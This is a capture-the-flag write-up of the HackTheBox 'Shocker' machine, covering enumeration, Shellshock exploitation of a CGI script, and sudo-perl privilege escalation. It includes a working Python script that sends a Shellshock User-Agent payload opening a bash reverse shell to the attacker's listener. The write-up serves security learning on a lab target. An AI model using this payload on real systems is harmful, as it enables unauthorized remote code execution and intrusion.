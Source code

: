 ```yaml
---
weight: 1
title: "HackTheBox - Shocker Writeup"
date: 2022-11-05
draft: false
author: "SH∆FIQ ∆IM∆N"
authorLink: "https://shafiqaiman.com"
images: []
resources:
- name: "featured-image"
  src: "featured.png"

tags: ["CVE-2014-6271", "gobuster", "shellshock", "GTFOBins", "rce", "python", "cgi-bin"]
categories: ["HacktheBox"]

lightgallery: true
toc:
  auto: false
---
```


## Nmap
Like always, I’m going to scan the IP Address by using [nmap](https://nmap.org/) but I’m going to scan the full port first. Then, I’m going to scan the only open ports.

```sql
nmap -p80,2222 -sCV -oN nmap/shocker 10.10.10.56

80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)

2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The nmap scan result is completed. There are just `2` port opens which are port `80` and port `2222`. It's a bit odd to configure the `SSH` in another port besides the standard port `22`. However, based on the [OpenSSH](https://launchpad.net/ubuntu/+source/openssh/1:7.2p2-4ubuntu2.2) service banner, this is an Ubuntu (xenial) machine. Unfortunately, I can't do much with `SSH` since it's mostly secure hence the name `Secure Shell`. :)

## Http: don't bug me!
With that information in hand. I've navigated port `80` through my browser and I've been greeted with this page. It's just a funny image with text that says `"Don't Bug Me!"`. Based on the `index` page extension, it's an `html` file.

![don't bug me](dont-bug-me.png "don't bug me")

### Gobuster
So, I'm going to run [gobuster](https://github.com/OJ/gobuster) to enumerate more on this webserver. However, it's just a massive dead end for me. I can't find anything at all. Based on this machine name, which is `shocker` and I'm thinking somehow it's based on [Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)) vulnerability. Also, it has an `Apache` web server running and this vulnerability can occur in the [/cgi-bin/](https://en.wikipedia.org/wiki/Common_Gateway_Interface) directory. When I navigated to that directory in my browser, I instantly got `Forbidden` or `403` which means it existed.

![forbidden /cgi-bin/](cgi-bin.png "forbidden /cgi-bin/")

Now, I'm confused why [gobuster](https://github.com/OJ/gobuster) can't find it at all, and based on the wordlist I used, the `cgi-bin` is present in it. With closer inspection, I found out that it needs to be another "slash" `/` in the end. For example `/cgi-bin` vs `/cgi-bin/`. When it doesn't have `/` at the end, it goes straight to `404 Not Found`. Then, I'll try running the [gobuster](https://github.com/OJ/gobuster) again with tag `-f` for `Append / to each request` and it did manage to find the `/cgi-bin/` directory.

![gobuster](gobuster-cgi-bin.png "gobuster")

The best thing to do now is to enumerate more in that directory but this time I'm using the `-x` flag for looking up the extension with `.sh` and `.cgi` and I've got a hit with the `user.sh` file.

![gobuster user.sh](gobuster-cgi-bin-user-sh.png "gobuster user.sh")

### Http: /Cgi-Bin/User.sh
When I navigated to that file which is `user.sh` it automatically downloaded it into my machine. When I opened it up, it was `"Just an uptime test script"` and nothing too fancy about it. ;)

![contents user.sh](read-the-file-user-sh.png "contents user.sh")

## Foothold: ShellShock
So, I already have the file that I needed for the exploitation but I didn't know how to tinker with it. So, the same old me goes to my handsome and wise friend Mr.Google and asking about ShellShock's vulnerability. I ended up finding this [blog](https://www.sevenlayers.com/index.php/125-exploiting-shellshock) post showcasing `"how to exploit shellshock manually"` also the given CVE for this vulnerability is [CVE-2014-6271](https://nvd.nist.gov/vuln/detail/cve-2014-6271). I can inject some arbitrary bash command in the `User-Agent` but with some weird string inside it. Luckily, I manage to find this [answer](https://unix.stackexchange.com/a/157520) regard of that `string` (Kind of understand a bit) but I want to be "leet" today. So, I'm going to make a [python](https://www.python.org/) script to gain the initial foothold with [bash reverse shell](https://www.revshells.com/).

```python
#!/usr/bin/env python3
import argparse
import requests
import sys

parser = argparse.ArgumentParser()
parser.add_argument('-i', '--lhost', metavar='', required=True, help='listening ip')
parser.add_argument('-p', '--lport', metavar='', required=True, help='listening port')
args = parser.parse_args()

if __name__ == "__main__":
    try:
        payload = f"/bin/bash -i >& /dev/tcp/{args.lhost}/{args.lport} 0>&1"

        url = "http://10.10.10.56/cgi-bin/user.sh"
        agent = {'User-Agent':'() { :; }; echo ; echo ; '+ payload}
        req = requests.get(url, headers=agent)
    except KeyboardInterrupt:
        print('\n');sys.exit()
```

why not? ¯\\(0_0)/¯

## PrivEsc: Perl
I'm in as a `shelly` user and the very first thing I love to do is [upgrading my shell](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys#python) with python since this machine has python installed on it. Like always, I love to start with the simple `"check"` in the sudo permission with the `sudo -l` command. Shockingly, I can run `perl` with the sudo command without any authentication needed. So, I'm heading to the lovely [gtfobins](https://gtfobins.github.io/) that have a bunch of collection of Unix binaries that can be abused. Then, I'll try to run it, and BOOM!

![become root](root.png "become root")

VOILA